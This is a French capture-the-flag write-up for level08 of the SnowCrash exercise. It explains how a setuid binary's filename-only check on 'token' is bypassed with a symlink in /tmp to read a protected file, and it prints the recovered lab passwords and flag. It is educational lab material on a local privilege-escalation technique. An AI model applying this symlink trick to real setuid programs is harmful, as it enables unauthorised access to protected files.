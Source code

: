 # README - Exploitation du binaire level08

## Étapes suivies pour obtenir le Flag08

### 1. Identification des fichiers

Le répertoire contient deux fichiers principaux :

```bash
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

- **`level08`** : Un exécutable avec les permissions `setuid` et `setgid`, ce qui signifie qu'il s'exécute avec les privilèges de l'utilisateur `flag08`.
- **`token`** : Un fichier contenant probablement le flag, mais inaccessible directement par l'utilisateur `level08` en raison des permissions strictes.

### 2. Analyse du binaire `level08`

L'analyse avec la commande `strings` révèle que le programme utilise les fonctions suivantes :
- **`strstr`** : Permet de rechercher une sous-chaîne dans un nom de fichier.
- **`open`** et **`read`** : Utilisées pour accéder au fichier spécifié.
- **Messages pertinents** :
  - `You may not access '%s'` : Indique une validation basée sur le nom ou le chemin du fichier.

Ces informations suggèrent que le programme vérifie le nom du fichier pour empêcher l'accès direct au fichier `token`.

### 3. Exploitation de la vulnérabilité

Le programme semble uniquement vérifier le chemin fourni, mais il n'empêche pas l'utilisation de liens symboliques pointant vers le fichier `token`. Cette vulnérabilité peut être exploitée pour contourner les restrictions.

#### Étape 1 : Créer un lien symbolique vers le fichier `token`

Crée un lien symbolique dans un répertoire où nous avons les permissions nécessaires (par exemple, `/tmp`) :

```bash
ln -s /home/user/level08/token /tmp/ici
```

#### Étape 2 : Vérifier l'accès au lien symbolique

Bien que `cat` ne permette pas de lire le fichier via le lien symbolique :

```bash
cat /tmp/ici
# Résultat : Permission denied
```

L'exécutable `level08` peut cependant accéder au fichier via ce lien :

```bash
./level08 /tmp/ici
```

#### Étape 3 : Récupérer le flag

En exécutant la commande précédente, le programme renvoie le contenu du fichier `token` :

```bash
quif5eloekouj29ke0vouxean
```

### 4. Passage à l'utilisateur suivant

Utilisez le flag pour passer à l'utilisateur `flag08` :

```bash
su flag08
Password: quif5eloekouj29ke0vouxean
```

Une fois connecté, exécutez `getflag` pour récupérer le token :

```bash
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

### 5. Accès à l'utilisateur suivant

Utilisez le token obtenu pour passer à l'utilisateur `level09` :

```bash
su level09
Password: 25749xKZ8L7DkSCwJkT9dyv6f
```

### Vulnérabilité expliquée

Le programme `level08` ne valide pas si le fichier ouvert via un lien symbolique est autorisé. La vérification est uniquement basée sur le chemin fourni en entrée. En créant un lien symbolique pointant vers le fichier `token`, il est possible de contourner cette vérification et de forcer le programme à accéder au contenu du fichier avec les privilèges de `flag08`.

Cette vulnérabilité montre l'importance de vérifier la destination finale des fichiers ouverts, même lorsqu'un lien symbolique est utilisé.